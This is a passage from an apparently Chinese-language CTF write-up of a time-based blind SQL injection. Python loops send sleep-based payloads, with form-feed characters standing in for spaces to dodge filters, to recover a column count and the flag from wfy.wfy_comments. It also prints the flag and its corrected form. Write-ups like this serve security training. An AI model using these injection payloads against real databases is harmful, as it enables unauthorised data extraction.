 输出结果即为列名：

```python
['id', 'text', 'user', 'name', 'display']
```

猜想 `text` 为储存数据的列。先获取列的字段个数：

```python
num = test_int(0, 200, "if((select(count(text))from(wfy.wfy_comments))={},sleep(1),1)")
print(num)
```

得到字段个数为 `12`.

查找 flag：

```python
flag = []
for i in range(num):
    passed = test_pass("if(substr((select(user)from(wfy.wfy_comments)limit\x0C"+str(i)+",1),1,1)='f',sleep(1),1)")
    if passed:
        len = test_int(0, 100, "if((select(length(user))from(wfy.wfy_comments)limit\x0C"+str(i)+",1)={},sleep(1),1)")
        if len == None:
            continue
        text = loop_str(
            1, len+1, "if(substr((select(user)from(wfy.wfy_comments)limit\x0C"+str(i)+",1),{},1)='{}',sleep(1),1)", log_result=True, log=True)
        print(text)
        flag.append(text)
print(flag)
```

输出结果为

```python
['flag{ju2t_let_me_s1eep_f0r_a_whi1e}']
```

但是提交的 flag 为

```plain
flag{Ju2t_let_me_s1eep_f0r_a_whi1e}
```

由于上述是使用延时盲注，所以脚本判断if是否判真并不稳定，可以通过修改脚本开头的 `REQUEST_TTL` 进行调整。但是耗时长是一个重大问题。

